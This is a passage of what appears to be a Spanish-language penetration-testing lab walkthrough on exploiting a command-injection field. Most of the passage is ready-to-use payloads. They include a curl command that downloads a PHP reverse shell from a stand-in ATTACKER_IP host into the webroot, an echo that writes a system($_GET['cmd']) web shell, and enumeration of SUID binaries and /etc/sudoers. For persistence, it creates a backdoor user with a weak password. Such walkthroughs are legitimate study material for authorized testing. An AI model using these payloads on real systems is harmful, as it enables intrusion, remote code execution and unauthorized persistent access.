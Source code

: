 ### 🔸 Ejemplo: PHP reverse shell

```Bash
127.0.0.1; curl http://ATTACKER_IP/shell.php -o /var/www/html/shell.php
```

- Prepara el archivo shell.php en tu máquina atacante (Kali) con un servidor HTTP:

```Bash
python3 -m http.server 80
```

- Luego accede a http://victima/shell.php para ejecutar la shell.

### 🔸 Alternativa: Usar echo para crear la shell

```bash
127.0.0.1; echo "<?php system($_GET['cmd']); ?>" > /var/www/html/cmd.php
```

Accede a: http://127.0.0.1/cmd.php?cmd=id

---

## 📈 2. Escalada de privilegios

Ya que estás como www-data, puedes intentar escalar privilegios:

### 🔍 Enumerar el sistema

```bash
127.0.0.1; sudo -l
```

```bash
127.0.0.1; find / -perm -4000 2>/dev/null
```

Resultado:


<img width="544" height="412" alt="imagen" src="https://github.com/user-attachments/assets/80c1449e-40ff-44ee-836a-2fab96e2a029" />


```bash
127.0.0.1; cat /etc/sudoers
```

### 🧪 Buscar exploits locales

- Usa herramientas como linpeas.sh o linux-exploit-suggester.sh
- Descárgalas con wget o curl desde tu máquina atacante

## 🔄 3. Persistencia

Una vez dentro, puedes crear un usuario o añadir tu clave SSH:

```Bash
127.0.0.1; useradd pentester -m -s /bin/bash
127.0.0.1; echo 'pentester:1234' | chpasswd
```
